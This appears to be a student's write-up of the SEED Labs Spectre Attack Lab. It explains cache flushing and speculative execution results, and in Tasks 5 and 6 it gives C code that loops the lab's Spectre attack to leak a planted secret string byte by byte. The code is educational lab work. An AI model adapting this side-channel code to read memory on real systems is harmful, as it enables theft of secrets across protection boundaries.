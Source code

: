 ```yaml
---
title: Spectre Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Spectre_Attack.pdf

*task 1 and 2 are exactly the same tasks as what in [Meltdown Attack Lab](./Meltdown-Attack)*

# Task 3

```
array[97*4096 + 1024] is in cache.
The Secret = 97.
```

Because `97>=size`, the statement of Line 2 should not be executed. But, Actually, the program fetches the effects on CPU cache.

After commenting all `_mm_clflush(&size)`,it runs with nothing output. It shows that the program can read any extra information from the cache now. The function [`_mm_clflush`](https://software.intel.com/sites/landingpage/IntrinsicsGuide/#text=_mm_clflush&expand=678) flushes all content in caches that contains variable `size`, which ensure the cache is not influenced by `size` during each call of `victim`.


It also fails to give any output. Because when `i>size`, the statement will be not executed actually but still takes up the space of cache in the same way as `victim(97)` do. 

# Task 4

Yes. It indeed prints the first element (`'S'`, or `83` in ASCII) of `secret`.

```
array[83*4096 + 1024] is in cache.
The Secret = 83.
```

# Task 5

Because `restrictedAccess(larger_x)` always returns 0, the code can be fixed as taking the index of the second-highest score.

```c
int max = 1;
for (i = 1; i < 256; i++)
{
    if (scores[max] < scores[i])
        max = i;
}
```

Then I can get the information of the 1-st letter in the secret message:

```
Reading secret value at 0xffffe80c = The  secret value is 83
The number of hits is 333
```

# Task 6

Nest the main call into a loop and print out the entire secret string letter by letter:

```c
int main()
{
    int i;
    uint8_t s;
    int k;
    for (k = 0; k < strlen(secret); k++)
    {
        size_t larger_x = (size_t)(secret - (char *)buffer) + k;
        flushSideChannel();
        for (i = 0; i < 256; i++)
            scores[i] = 0;
        for (i = 0; i < 1000; i++)
        {
            spectreAttack(larger_x);
            reloadSideChannelImproved();
        }
        int max = 1;
        for (i = 1; i < 256; i++)
        {
            if (scores[max] < scores[i])
                max = i;
        }
        printf("Reading secret value at %p = ", (void *)larger_x);
        printf("The  secret value is %d:%c\n", max, (char)max);
        printf("The number of hits is %d\n", scores[max]);
    }
    return (0);
}
```

Then the whole string can be revealed:

![Every letter in the secret string](./steal_all_secrets.png)